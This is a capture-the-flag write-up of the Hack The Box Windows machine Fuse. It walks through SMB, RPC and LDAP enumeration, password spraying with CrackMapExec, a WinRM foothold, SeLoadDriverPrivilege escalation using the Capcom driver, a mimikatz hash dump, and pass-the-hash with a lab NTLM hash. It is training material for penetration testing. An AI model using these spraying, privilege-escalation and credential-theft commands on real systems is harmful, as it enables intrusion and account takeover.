



# Hack The Box: Fuse machine write-up

Fuse was a Windows box that I found to be pretty complex despite it's medium difficulty rating. It is mostly based on thorough enumeration on different services, like RPC and SMB, and then using password spraying to find valid credentials for the list of enumerated users. Once in, we quickly realise the privilege escalation is around a misconfigured permission which lets us load drivers and execute them as administrator.

Let's dig in! The IP of the machine is ``10.10.10.193`` and, as always, I add `fuse.htb` as an entry to my `/etc/hosts` file .

## Enumeration

I start by enumerating open ports to discover the services running in the machine. I fire up nmap:

*Result of nmap scan*

```
# Nmap 7.80 scan initiated Sun Jul  5 18:39:18 2020 as: nmap -v -sV -sC -oA nmap/initial fuse.htb
Nmap scan report for fuse.htb (10.10.10.193)
Host is up (0.050s latency).
Not shown: 988 filtered ports
PORT     STATE SERVICE      VERSION
53/tcp   open  domain?
| fingerprint-strings:
|   DNSVersionBindReqTCP:
|     version
|_    bind
80/tcp   open  http         Microsoft IIS httpd 10.0
| http-methods:
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Site doesn't have a title (text/html).
88/tcp   open  kerberos-sec Microsoft Windows Kerberos (server time: 2020-07-05 17:00:00Z)
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: fabricorp.local, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: FABRICORP)
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap         Microsoft Windows Active Directory LDAP (Domain: fabricorp.local, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=7/5%Time=5F020247%P=x86_64-pc-linux-gnu%r(DNSVe
SF:rsionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\x
SF:04bind\0\0\x10\0\x03");
Service Info: Host: FUSE; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h40m30s, deviation: 4h02m30s, median: 20m29s
| smb-os-discovery:
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Fuse
|   NetBIOS computer name: FUSE\x00
|   Domain name: fabricorp.local
|   Forest name: fabricorp.local
|   FQDN: Fuse.fabricorp.local
|_  System time: 2020-07-05T10:02:22-07:00
| smb-security-mode:
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb2-security-mode:
|   2.02:
|_    Message signing enabled and required
| smb2-time:
|   date: 2020-07-05T17:02:21
|_  start_date: 2020-07-05T15:39:41

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jul  5 18:44:30 2020 -- 1 IP address (1 host up) scanned in 312.01 seconds
```

Quite a lot of ports open, amongst the most interesting ones 80 (HTTP), 135 (RPC), 389 / 3268 (LDAP) and 139 / 445 (SMB). I'll start by checking out the web server.

### Port 80 enumeration

When trying to access `fuse.htb` on my browser I got an error, which was because the server is configured to redirect to `fuse.fabricorp.local`. Therefore I just added `fuse.fabricorp.local` to my `/etc/hosts` file to point to the machine IP and could access it.

*Initial redirect*


*PaperCut software*


Interesting! There is PaperCut installed, so I started wandering around to see if there was anything interesting and found different usernames, which I added to a wordlist for later use. I called it `users.txt`.

*Enumerated users from different documents*





My `users.txt` file had then the following contents:

```
Administrator
bhult
sthompson
tlavel
pmerton
```

I had found users, okay, but where were the passwords? I ran some bruteforce scans but nothing. Then moved on and tried to enumerate LDAP to see if there was anything.

### LDAP enumeration

I used `ldapsearch` to enumerate the box.

```sh
┌─[htb@parrot]─[~/htb/fuse]
└──╼ $ ldapsearch -x -h 10.10.10.193 -p 389 -s base namingcontexts
# extended LDIF
#
# LDAPv3
# base <> (default) with scope baseObject
# filter: (objectclass=*)
# requesting: namingcontexts
#

#
dn:
namingContexts: DC=fabricorp,DC=local
namingContexts: CN=Configuration,DC=fabricorp,DC=local
namingContexts: CN=Schema,CN=Configuration,DC=fabricorp,DC=local
namingContexts: DC=DomainDnsZones,DC=fabricorp,DC=local
namingContexts: DC=ForestDnsZones,DC=fabricorp,DC=local

# search result
search: 2
result: 0 Success

# numResponses: 2
# numEntries: 1
```

Then, I try to extract the information but no luck...

```sh
┌─[htb@parrot]─[~/htb/fuse]
└──╼ $ ldapsearch -h 10.10.10.193 -p 389 -x -b "dc=fuse,dc=htb"
# extended LDIF
#
# LDAPv3
# base <dc=fuse,dc=htb> with scope subtree
# filter: (objectclass=*)
# requesting: ALL
#

# search result
search: 2
result: 1 Operations error
text: 000004DC: LdapErr: DSID-0C090A6C, comment: In order to perform this opera
 tion a successful bind must be completed on the connection., data 0, v3839

# numResponses: 1
```

### SMB enumeration

I then tried with anonymous SMB login but no luck either.

```sh
┌─[htb@parrot]─[~/htb/fuse]
└──╼ $ smbclient -L //10.10.10.193 -N
Anonymous login successful

	Sharename       Type      Comment
	---------       ----      -------
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.10.193 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

Hmmmm, nothing came up so I went back to the web server.

### PaperCut enumeration (more thorough)

I thought maybe the password was somewhere in the name of the documents or something so I decided to use `cewl` to build a wordlist and do some password spraying with it on the different services:

```
cewl -d 5 -m 3 --with-numbers -w passwords.txt http://fuse.fabricorp.local/papercut/logs/html/index.htm
```

The command can be broken down like this:

- `-d 5` for a depth to spider the website of 5.
- `-m 3` for a minimum word length of 3.
- `--with-numbers` to include words that contain numbers, as passwords are usually alphanumeric.

### SMB password spraying and enumeration

Once with the wordlist I used the tool `CrackMapExec` (abbreviated as `cme` in the binary) to bruteforce SMB:

*Enumerating users in SMB*


Good! We got two hits: `tlavel` and `bhult`; both using the same password: `Fabricorp01`. However, the `NT_STATUS_PASSWORD_MUST_CHANGE` is weird...

*Password not working*


I googled around and found that it's possible to change the SMB password of a user remotely if we know the old password, good! We can do that with `smbpasswd`:

```
smbpasswd -r 10.10.10.193 -U tlavel
```

And we are able to list shares!

*Password changed and able to list shares*


To quickly see everything I changed to `smbmap` and used the recursive flag `-R`:

*Using smbmap to view all the files*


However, I couldn't find anything too juicy... I did note though that there was a lot of printer stuff there so it may turn out to be useful later.

### RPC enumeration

I remembered that I hadn't yet taken a look at this service because I didn't have any working credentials, but now I did! The first thing I did when I got the prompt was use `enumprinters`, as I had the printers stuff I had seen before fresh and thought there could be something. Then I checked if there were any more users. Turned out both assumptions were right!

*RPC enumeration yields a password and more usernames*


Finally a password: `$fab@s3Rv1ce$1`! I added the users to my `users.txt` and tried to use a password spraying attack once again on SMB: `svc-print:$fab@s3Rv1ce$1` was valid. However, no new information.

*New valid credentials for SMB*



## Getting user

## WinRM: foothold into the system

After trying SMB with the new information I saw in `cme`'s help menu the option to try with the `winrm` service. I did and, to my surprise, the previous set of credentials worked!

*CrackMapExec output on winrm*


Using `evil-winrm` I got a shell and was able to read the user flag.

*User shell and flag with evil-winrm*


## Privilege escalation

### Windows enumeration

I started off using `whoami /all` to get all the possible information about the user.

*Information on the current user*


Something thing was odd: one of the privileges enabled wasn't normal:

```
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
```

> We could have also used `whoami /priv` to just get the privileges

Another thing I noticed was a file called `readme.txt` on the root of the filesystem which talks about some issue (in the end I didn't use this information at all).

*File containing hints (apparently)*


## Exploit

I googled around and found a nice article (<https://www.tarlogic.com/en/blog/abusing-seloaddriverprivilege-for-privilege-escalation/>) that explained how it was possible to do a privilege escalation based on loading a driver from an unprivileged user account. One of the caveats of the exploit is that we need to choose a signed driver that has a vulnerability.

[This](https://github.com/TarlogicSecurity/EoPLoadDriver/) and [this other one](https://github.com/tandasat/ExploitCapcom) repositories contain the necessary steps required for the exploitation. The first one contains the proof of concept for abusing SeLoadDriverPrivilege while the other one is a standalone exploit for a vulnerable feature in the driver Capcom.sys.

I compiled both and copied them to the system, ending up with the following files (`mimikatz.exe` is for getting the NTLM Hash of the administrator afterwards).

*Files moved to the system*


Then, to execute the exploit we just need two commands:

- `.\EOPLOADDRIVER.exe System\CurrentControlSet\MyService C:\temp\capcom.sys`
- `.\ExploitCapcom_modded.exe`

*Commands to get a root shell*



Then I used `mimikatz` to get the hash of the administrator:

*Getting NTLM hash of the administrator*


If you're wondering why, it was because evil-winrm offers the possibility of authenticating with a hash (aka a pass-the-hash attack), so we can run `evil-winrm -i 10.10.10.193 -u administrator -H '370ddcf45959b2293427baa70376e14e'` and get an administrator shell!

*Remote access as administrator using hash*


This is everything, I hope you enjoyed the writeup and learned something new! If you liked it you can give me respect on Hack The Box through the following link: <https://www.hackthebox.eu/home/users/profile/31531>. Until next time!

---

*Diego Bernal Adelantado*
